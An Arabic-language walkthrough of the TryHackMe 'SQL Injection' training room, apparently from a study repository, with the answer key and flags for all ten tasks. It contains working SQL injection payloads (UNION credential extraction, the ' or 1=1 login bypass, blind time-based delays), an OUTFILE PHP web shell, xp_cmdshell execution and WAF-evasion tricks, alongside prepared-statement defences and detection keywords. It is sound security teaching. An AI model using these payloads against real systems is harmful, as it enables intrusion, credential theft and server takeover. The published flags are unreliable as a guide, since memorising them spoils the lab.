

# غرفة حقن قواعد البيانات (SQL Injection)

---

## 1. بطاقة التعريف والبيانات الوصفية (Metadata & Overview)

* **المسار التعليمي:** Jr Penetration Tester (مسار مختبر الاختراق المبتدئ - المنهج المعتمد)
* **الموديول:** الموديول السابع - ثغرات تطبيقات الويب I (Web Application Vulnerabilities I)
* **رقم الغرفة:** الغرفة الأولى (Room 01 / 07)
* **اسم الغرفة في المنصة:** SQL Injection
* **رابط الغرفة الرسمي:** [TryHackMe - SQL Injection](https://tryhackme.com/room/sqlinjectionlm)
* **رمز الغرفة:** `sqlinjectionlm`
* **مستوى الصعوبة:** متوسط / إرشادي (Medium / Walkthrough)
* **الهدف التكتيكي:** استيعاب البنية المعمارية لقواعد البيانات ولغة SQL، إتقان كسر الاستعلامات واستغلال ثغرات الحقن المباشر (In-Band / UNION SQLi)، تخطي آليات المصادقة، استخراج البيانات حرفاً بحرف عبر الحقن الأعمى البولياني والزمني، فهم هجمات Out-of-Band عبر DNS، وتطبيق آليات التحصين بالاستعلامات المجهزة (Prepared Statements).

---

## 2. الملخص التنفيذي (Executive Summary)

تعتبر ثغرة **حقن لغة الاستعلام الهيكلية (SQL Injection - SQLi)** واحدة من أخطر وأقدم التهديدات الأمنية الموجهة لتطبيقات الويب (المصنفة تحت CWE-89 و OWASP Top 10 A03:2021). تنشأ الثغرة عندما يقوم المطور بدمج مدخلات المستخدم القادمة من المتصفح مباشرة في نص استعلام SQL دون معالجة أو فصل صارم بين الشفرة التنفيذية والبيانات الحرفية.

يقدم هذا الدليل توثيقاً هندسياً شاملاً للمستويات الأربعة المعملية للغرفة:
1. **المستوى الأول (In-Band UNION SQLi):** كشف عدد الأعمدة، استجواب جداول النظام `information_schema` لسحب اسم قاعدة البيانات `sqli_one`، وجدول `staff_users`، واستخراج حساب المشرف `admin:4276` والحصول على الراية `THM{SQL_INJECTION_3840}`.
2. **المستوى الثاني (Blind Auth Bypass):** التلاعب بالمنطق البولياني عبر حمولة التطابق المنطقي الكلاسيكية `' or 1=1;--` لتخطي بوابة التحقق والحصول على الراية `THM{SQL_INJECTION_9581}`.
3. **المستوى الثالث (Blind Boolean-Based SQLi):** استنتاج محتويات قاعدة البيانات حرفاً بحرف عبر مراقبة استجابات `{"taken": true/false}` في واجهة فحص المستخدمين، وسحب كلمة مرور المدير `3845` والراية `THM{SQL_INJECTION_1093}`.
4. **المستوى الرابع (Blind Time-Based SQLi):** استغلال غياب أي مؤشرات بصرية بحقن دوال التأخير `SLEEP(5)` داخل ترويسة `Referer` لقياس أزمنة الاستجابة واستخراج الراية النهائية `THM{SQL_INJECTION_MASTER}`.
5. **استراتيجيات الدفاع:** التحصين الشامل باستخدام الاستعلامات المجهزة (**Prepared Statements**).

---

## 3. مخطط البنية المعمارية وتدفق العمليات (Architecture & Workflow Diagram)



---

## 4. المتطلبات المسبقة والتهيئة المعملية (Prerequisites & Lab Setup)

1. **البرمجيات المطلوبة:**
   * متصفح ويب مهيأ مع Burp Suite أو أدوات سطر الأوامر (cURL, Python).
   * فهم مبادئ لغة SQL وأوامرها الأساسية (`SELECT`, `UNION`, `INSERT`).
2. **بدء تشغيل الآلة المعملية:**
   * النقر على زر **Start Lab Machine** في الغرفة للحصول على نطاق أو عنوان الآلة المستهدفة (`https://website.thm`).
   * إضافة النطاق إلى ملف المضيفين المحليين (`/etc/hosts` أو `C:\Windows\System32\drivers\etc\hosts`):
     ```text
     MACHINE_IP website.thm
     ```
3. **أداة الفحص الأساسية:**
   * استخدام **Burp Repeater** لإرسال حمولات الاختبار وتعديل الترويسات ومراقبة أزمنة الاستجابة بالمللي ثانية.

---

## 5. المفاهيم الأساسية والعمق النظري (Core Concepts & Theoretical Deep Dive)

### أ. كسر السياق التنفيذي (Context Escaping):
في الوضع الطبيعي، تُحاط مدخلات المستخدم داخل استعلامات SQL بعلامات تنصيص فردية `'` لتُعامل كنصوص. إذا لم يقم التطبيق بتهريب (Escape) هذه العلامات، يرسل المهاجم علامة تنصيص مفردة تفكك حدود النص الأصلي، ثم يلحق أوامر منطقية جديدة (`OR`, `UNION`)، وينهي ما تبقى من الاستعلام بمحرف تعليق (`-- ` أو `#`).

### ب. شروط مشغل UNION:
* تطابق عدد الأعمدة المستعلم عنها في الشقين.
* توافق أنواع البيانات تسلسلياً عبر الأعمدة.
* إبطال نتيجة الشق الأول (بمعرف سالب مثل `id=-1` أو `0`) لإجبار الخادم على عرض نتائج الشق الثاني في واجهات المستخدم الفردية.

### ج. هندسة التحصين عبر Prepared Statements:
في الاستعلامات المجهزة، يرسل التطبيق هيكل الاستعلام إلى قاعدة البيانات مسبقاً (`SELECT * FROM users WHERE id = ?`). يقوم المحرك بتجميع شجرة البناء المجرد (AST) مسبقاً. وعند تمرير بيانات المستخدم لاحقاً، يتم ربطها كـ "بيانات حرفية بحتة" (Literals)، مما يضمن عدم تحول أي محرف تنصيص إلى أمر تنفيذي.

---

## 6. استعراض الغرفة وهيكل المهام (Room Breakdown & Navigation)

تتألف الغرفة من 10 مهام منهجية مترابطة:
* **المهمة 01:** مدخل مفاهيمي والتعريف بـ SQL (`Structured Query Language`).
* **المهمة 02:** ما هي قواعد البيانات ومفهوم الـ `DBMS` والـ `table`.
* **المهمة 03:** تراكيب SQL الأساسية وأوامر `SELECT`, `UNION`, `INSERT`.
* **المهمة 04:** آليات عمل حقن SQL ومحدد إنهاء العبارة البرمجية (`;`).
* **المهمة 05:** المستوى الأول: الحقن المباشر In-Band واستخراج الراية الأولى.
* **المهمة 06:** المستوى الثاني: الحقن الأعمى وتخطي بوابات الدخول بـ `' or 1=1;--`.
* **المهمة 07:** المستوى الثالث: الحقن الأعمى البولياني واستخراج البيانات عبر True/False.
* **المهمة 08:** المستوى الرابع: الحقن الأعمى الزمني واستغلال دالة `SLEEP(5)`.
* **المهمة 09:** هجمات الحقن خارج القناة (Out-of-Band) واستغلال بروتوكول `DNS`.
* **المهمة 10:** المعالجة الجذرية وأفضل الممارسات الدفاعية (`Prepared Statements`).

---

## 7. ملخص المهام والحلول العملية (Task-by-Task Implementation Summary)

| رقم المهمة | اسم المهمة (Task Name) | السؤال المعتمد (Question) | الإجابة الموثقة (Verified Answer) | ملف المرحلة السبع |
| :---: | :--- | :--- | :--- | :---: |
| **01** | Brief | What does SQL stand for? | `Structured Query Language` | [TASK-01.md](../../01-SQL-INJECTION-INTRO/TASKS/TASK-01.md) |
| **02** | What is a Database? | 1. Acronym for database software?<br>2. Name of grid-like structure? | Q1: `DBMS`<br>Q2: `table` | [TASK-02.md](../../01-SQL-INJECTION-INTRO/TASKS/TASK-02.md) |
| **03** | What is SQL? | 1. Statement to retrieve data?<br>2. Clause to combine SELECTs?<br>3. Statement to add data? | Q1: `SELECT`<br>Q2: `UNION`<br>Q3: `INSERT` | [TASK-03.md](../../01-SQL-INJECTION-INTRO/TASKS/TASK-03.md) |
| **04** | What is SQL Injection? | What character signifies the end of a statement? | `;` | [TASK-04.md](../../01-SQL-INJECTION-INTRO/TASKS/TASK-04.md) |
| **05** | In-Band SQLi | What is the flag after completing level one? | `THM{SQL_INJECTION_3840}` | [TASK-05.md](../../01-SQL-INJECTION-INTRO/TASKS/TASK-05.md) |
| **06** | Blind SQLi - Auth Bypass | What is the flag after completing level two? | `THM{SQL_INJECTION_9581}` | [TASK-06.md](../../01-SQL-INJECTION-INTRO/TASKS/TASK-06.md) |
| **07** | Blind SQLi - Boolean Based | What is the flag after completing level three? | `THM{SQL_INJECTION_1093}` | [TASK-07.md](../../01-SQL-INJECTION-INTRO/TASKS/TASK-07.md) |
| **08** | Blind SQLi - Time Based | What is the final flag after completing level four? | `THM{SQL_INJECTION_MASTER}` | [TASK-08.md](../../01-SQL-INJECTION-INTRO/TASKS/TASK-08.md) |
| **09** | Out-of-Band SQLi | Protocol beginning with D to exfiltrate data? | `DNS` | [TASK-09.md](../../01-SQL-INJECTION-INTRO/TASKS/TASK-09.md) |
| **10** | Remediation | Method of protecting from SQLi? | `Prepared Statements` | [TASK-10.md](../../01-SQL-INJECTION-INTRO/TASKS/TASK-10.md) |

---

## 8. المعامل العملية والتطبيق الهجومي المباشر (Practical Labs & Hands-on Exploitation)

### المعمل 1: استغلال UNION SQLi (المستوى الأول):
* **نقطة النهاية:** `/article?id=1`
* **الحمولة:** `0 UNION SELECT 1,2,group_concat(username,':',password) FROM staff_users;--`
* **البيانات المستخرجة:** `admin:4276`
* **الراية:** `THM{SQL_INJECTION_3840}`

### المعمل 2: تخطي تسجيل الدخول (المستوى الثاني):
* **نقطة النهاية:** `/login`
* **الحمولة:** حقل اسم المستخدم: `' or 1=1;--`
* **الراية:** `THM{SQL_INJECTION_9581}`

### المعمل 3: الاستخراج البولياني الأعمى (المستوى الثالث):
* **نقطة النهاية:** `/checkuser?username=admin`
* **المنهجية:** التخمين البولياني عبر دالة `LIKE` واستخراج كلمة المرور `3845`.
* **الراية:** `THM{SQL_INJECTION_1093}`

### المعمل 4: الاستخراج الزمني الأعمى (المستوى الرابع):
* **نقطة النهاية:** ترويسة `Referer` في الطلب الرئيسي.
* **الحمولة:** `Referer: admin123' UNION SELECT SLEEP(5),2;--`
* **الراية:** `THM{SQL_INJECTION_MASTER}`

---

## 9. تطبيقات الفريق الأحمر والمناورات الهجومية (Red Team Applications)

* **الارتقاء من قراءة البيانات إلى التحكم بالخادم (SQLi to RCE):**
  - في قواعد بيانات MySQL: استغلال صلاحيات المشرف لكتابة قذائف ويب (`SELECT '<?php system($_GET["cmd"]); ?>' INTO OUTFILE '/var/www/html/shell.php';`).
  - في قواعد بيانات MSSQL: تفعيل إجراءات النظام الممتدة لتشغيل موجه الأوامر (`EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE; EXEC xp_cmdshell 'whoami';`).
* **التخفي وتفادي الرصد (Evasion):** استخدام الترميز المزدوج، وتقطيع الكلمات المفتاحية بالتعليقات (`UN/**/ION`), واستخدام دوال الترميز السداسي عشري لتجاوز فلاتر WAF.

---

## 10. استراتيجيات الفريق الأزرق والكشف الدفاعي (Blue Team & Detection Strategies)

### أ. التحصين البرمجي الصارم:
* فرض استخدام الاستعلامات المجهزة (Prepared Statements / Parameterized Queries) حصراً في كافة مسارات التطبيق.
* تطبيق مبدأ الامتيازات الأقل (Least Privilege) على حساب قاعدة البيانات المستخدم من قِبل تطبيق الويب وحرمانه من صلاحيات إنشاء الملفات أو استدعاء إجراءات النظام.

### ب. الرصد والمراقبة في أنظمة SIEM / WAF:
* رصد الحمولات التي تحتوي على كلمات مفتاحية مريبة مثل `UNION SELECT`, `information_schema`, `SLEEP(`, `WAITFOR DELAY`.
* مراقبة استعلامات خادم DNS الصادرة من منطقة الخوادم الخلفية لاكتشاف محاولات التسريب خارج القناة (DNS Exfiltration).

---

## 11. استكشاف الأخطاء ومعالجة المشكلات التقنية (Troubleshooting & Edge Cases)

1. **الخادم يرجع خطأ عند استخدام UNION SELECT:**
   * **السبب:** عدم تطابق عدد الأعمدة مع الاستعلام الأصلي.
   * **الحل:** ابدأ بحقن `UNION SELECT 1` ثم `UNION SELECT 1,2` وزد العدد تصاعدياً حتى يقبل الخادم الطلب دون خطأ.
2. **عدم تأثر الخادم بدالة SLEEP في هجمات Time-Based:**
   * **السبب:** عدم توافق دالة النوم مع محرك قاعدة البيانات (مثال: استخدام `SLEEP` على MSSQL بدلاً من `WAITFOR DELAY`).
   * **الحل:** حدد نوع المحرك بدقة (Fingerprinting) واستخدم الدالة المخصصة له.
3. **عدم انعكاس بيانات UNION في الصفحة رغم صحة عدد الأعمدة:**
   * **السبب:** استمرار الاستعلام الأصلي في إرجاع نتائج صالحة تشغل مكان العرض الوحيد في القالب.
   * **الحل:** اجعل المعرّف الأصلي غير صالح (مثل `id=-1` أو `id=0`).

---

## 12. مرجع الأوامر السريعة والاختصارات (Cheatsheet & Quick Reference)

```sql
-- كسر الاستعلام وتخطي المصادقة
' OR 1=1;--

-- فحص عدد الأعمدة عبر ORDER BY
ORDER BY 1--
ORDER BY 5--

-- كشف اسم قاعدة البيانات وجداولها (MySQL)
0 UNION SELECT 1,2,database();--
0 UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema=database();--
0 UNION SELECT 1,2,group_concat(column_name) FROM information_schema.columns WHERE table_name='users';--

-- التأخير الزمني (Time-Based)
MySQL:   ' UNION SELECT SLEEP(5),2;--
MSSQL:   '; WAITFOR DELAY '0:0:5';--
Postgres:'; SELECT pg_sleep(5);--
```

---

## 13. أسئلة التحقق ومراجعة الفهم (Knowledge Check & Verification)

* **س1:** ما الفارق الجوهري بين ثغرات In-Band SQLi وثغرات Blind SQLi؟
  * *ج:* في In-Band يرى المختبر مخرجات قاعدة البيانات أو رسائل الخطأ منعكسة مباشرة في صفحة الويب، بينما في Blind لا تظهر أي بيانات ويتم استنتاج الحروف عبر الشروط المنطقية (Boolean) أو أزمنة التأخير (Time).
* **س2:** لماذا يعتبر استخدام Prepared Statements حلاً شاملاً لثغرات SQLi؟
  * *ج:* لأنها تفصل بين مرحلة تجميع الاستعلام ومرحلة إدخال البيانات؛ فيتم تجميع شجرة الـ AST مسبقاً وتُعامل مدخلات المستخدم دائماً كبيانات حرفية يستحيل تنفيذها.
* **س3:** ما هي القناة الأكثر شيوعاً لاستخراج البيانات في هجمات Out-of-Band ولماذا؟
  * *ج:* بروتوكول DNS؛ لأن منفذ UDP 53 يُترك مفتوحاً في معظم جدران الحماية للسماح بحل أسماء النطاقات.

---

## 14. المراجع والمصادر التوثيقية (References & Further Reading)

* [PortSwigger SQL Injection Cheat Sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)
* [OWASP SQL Injection Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)
* [OWASP Top 10: A03:2021 Injection](https://owasp.org/Top10/A03_2021-Injection/)
* [CWE-89: SQL Injection Standard Definition](https://cwe.mitre.org/data/definitions/89.html)
* [SQLMap Automated Testing Documentation](https://sqlmap.org/)
